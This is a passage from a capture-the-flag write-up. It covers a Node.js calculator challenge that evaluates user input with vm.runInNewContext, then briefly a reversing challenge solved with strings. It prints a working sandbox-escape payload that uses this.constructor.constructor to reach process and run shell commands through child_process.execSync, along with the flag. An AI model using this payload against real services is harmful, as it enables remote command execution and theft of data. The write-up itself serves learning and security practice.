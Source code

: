 ```javascript
process.stdout.write('This calculator lets you use the full power of Javascript for\n')
process.stdout.write('your computations! Try `Math.log(Math.expm1(5) + 1)`\n')
process.stdout.write('Type q to exit.\n')
rl.prompt()
rl.addListener('line', (input) => {
  if (input === 'q') {
    process.exit(0)
  } else {
    try {
      const result = vm.runInNewContext(input)
      process.stdout.write(result + '\n')
    } catch {
      process.stdout.write('An error occurred.\n')
    }
    rl.prompt()
  }
})
```
So, we pass javascript commands and those commands are executed in a separate context using the node.js `vm` module. No filtering is applied so our goal is to evade from the context created in `vm.runInNewContext` and get the flag.

Searching, one of the firsts articles that popped-up was [Sandboxing NodeJS is hard, here is why](https://pwnisher.gitlab.io/nodejs/sandbox/2019/02/21/sandboxing-nodejs-is-hard.html), which had all the information needed for completing the challenge. The payload described there, also the one that I used, is leveraging the use of the `this` keyword. The keyword accesses the instance of the parent object, in this case, it's the context of the object outside of the `vm.runInNewContext`. Now that we can escape from that, we want to get the `process` of the parent object so that we can execute our command. We can do this by accessing the constructor property of the parent object, from which we can run the constructor function that will return the process that we want.

Up until now we have: `this.constructor.constructor('return this.process')()`. Good. Now, using the returned value, we can execute commands. Final payload:

```javascript
this.constructor.constructor('return this.process')().mainModule.require('child_process').execSync('cat /ctf/flag.txt').toString()
```
![image](https://user-images.githubusercontent.com/38787278/85459786-3ddab580-b5ab-11ea-9168-88fb268a9ca5.png)

Flag: flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}

# <a name="rev"></a> Rev
## <a name="ropes"></a> ropes
Points: 130
#### Description
>It's not just a string, it's a rope!

### Solution
We get a file called `ropes`. We get the flag quickly by running `strings` on it.
